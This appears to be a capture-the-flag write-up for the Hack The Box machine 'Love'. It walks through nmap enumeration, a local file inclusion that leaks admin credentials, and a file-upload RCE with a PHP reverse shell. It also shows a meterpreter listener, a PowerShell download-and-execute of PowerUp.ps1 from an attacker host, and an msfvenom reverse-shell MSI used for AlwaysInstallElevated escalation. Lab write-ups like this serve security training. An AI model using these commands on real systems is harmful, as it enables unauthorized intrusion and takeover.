





# Writeup

Start with usual nmap enumeration 
```bash
$ nmap -sC -sV -oN nmap-initial 10.10.10.239

Starting Nmap 7.91 ( https://nmap.org ) at 2021-05-25 17:42 CEST
Nmap scan report for 10.10.10.239
Host is up (0.013s latency).
Not shown: 993 closed ports
PORT     STATE SERVICE      VERSION
80/tcp   open  http         Apache httpd 2.4.46 ((Win64) OpenSSL/1.1.1j PHP/7.3.27)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
|_http-title: Voting System using PHP
135/tcp  open  msrpc        Microsoft Windows RPC
139/tcp  open  netbios-ssn  Microsoft Windows netbios-ssn
443/tcp  open  ssl/http     Apache httpd 2.4.46 (OpenSSL/1.1.1j PHP/7.3.27)
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
|_http-title: 403 Forbidden
| ssl-cert: Subject: commonName=staging.love.htb/organizationName=ValentineCorp/stateOrProvinceName=m/countryName=in
| Not valid before: 2021-01-18T14:00:16
|_Not valid after:  2022-01-18T14:00:16
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1
445/tcp  open  microsoft-ds Windows 10 Pro 19042 microsoft-ds (workgroup: WORKGROUP)
3306/tcp open  mysql?
| fingerprint-strings: 
|   LDAPSearchReq, NotesRPC: 
|_    Host '10.10.14.217' is not allowed to connect to this MariaDB server
5000/tcp open  http         Apache httpd 2.4.46 (OpenSSL/1.1.1j PHP/7.3.27)
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
|_http-title: 403 Forbidden
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port3306-TCP:V=7.91%I=7%D=5/25%Time=60AD1AF0%P=x86_64-pc-linux-gnu%r(LD
SF:APSearchReq,4B,"G\0\0\x01\xffj\x04Host\x20'10\.10\.14\.217'\x20is\x20no
SF:t\x20allowed\x20to\x20connect\x20to\x20this\x20MariaDB\x20server")%r(No
SF:tesRPC,4B,"G\0\0\x01\xffj\x04Host\x20'10\.10\.14\.217'\x20is\x20not\x20
SF:allowed\x20to\x20connect\x20to\x20this\x20MariaDB\x20server");
Service Info: Hosts: www.example.com, LOVE, www.love.htb; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 2h41m34s, deviation: 4h02m31s, median: 21m33s
| smb-os-discovery: 
|   OS: Windows 10 Pro 19042 (Windows 10 Pro 6.3)
|   OS CPE: cpe:/o:microsoft:windows_10::-
|   Computer name: Love
|   NetBIOS computer name: LOVE\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2021-05-25T09:04:20-07:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2021-05-25T16:04:16
|_  start_date: N/A

```

We have 3 web servers but we are only allowed to visit the one hosted on port 80. We get *Forbidden* for all the others.

We can extract some info from the SSL certificate

>

We proceed to add the 2 love.htb domains to the `/etc/hosts` file.

If we visit `http://staging.love.htb `we are redireced to the following page:

>

In the demo tab we can specify a file from our machine

>

and its content gets displayed 

>


Let's try with a more interesting payload: `<script>alert("hey");</script>`

>

Here we go, we can inject javascrypt.

What about php?   
We try with: `<?php phpinfo(); ?>`

Nope it doesn't work


So we could:

1. Find a way to have code execution 
2. Include a local file to get its content


## Local file inclusion (LFI)

>

Remember that we were forbidden to access the page on port 5000. We try that one

>

And we have some admin credentials: `admin:@LoveIsInTheAir!!!!`

We go to the administration page we previously found with gobuser, namely `http://love.htb/admin/`.

We enter the credentials and we are in.


## Voting administration portal

>

Seems that Neovic Devierte is the name of the admnisrator

>

The website has been produced by Sourcecodemaster

>

By googling we find that this version of Voting system has a RCE exploit in Exploit DB

> 

We have file upload vulnerability in the candidate page, so we create a candidate and upload our reverse shell (The target machine is a Windows host, so we need a reverse shell for windows. A php reverse shell will work fine as php files are executed by Apache). We used https://github.com/ivan-sincek/php-reverse-shell.

>

Meanwhile we also set up a meterpreter listener:
```
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set lhost 10.10.14.217
set lport 9001
run
```

Then we upload the file and get the callback

>

We get a shell as the Phoebe user

We can go in the Phebe desktop folder and get the user flag

## Root

We first try to upgrade our shell to a meterpreter shell but unsuccessfully

Then we start the windows enumeration 

We used `PowerUp`.

Invoking all the checks:

```
C:\Users\Phoebe>powershell -nop -exec bypass IEX (New-Object Net.WebClient).DownloadString('http://10.10.14.224:8000/PowerUp.ps1'); Invoke-AllChecks
                                                                                                                                                                                              
[.....]                                                                                             

Check         : AlwaysInstallElevated Registry Key                          
AbuseFunction : Write-UserAddMSI             

[.....]                                    
```

The `AlwaysInstallElevated` registry key is up. It allows non-priv users the ability to install .msi packages with elevated permissions.

### EoP

Create malicious **msi** using **msfvenom**
```
$ msfvenom -p windows/shell/reverse_tcp LHOST=10.10.14.224 LPORT=9002 -f msi -o e
scalate.msi

[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 354 bytes
Final size of msi file: 159744 bytes
Saved as: escalate.msi
```


Transfer file to target machine
```
powershell Invoke-WebRequest -Uri http://10.10.14.224:8000/escalate.msi -OutFile escalate.msi
```

Then execute the malicious **msi**

>
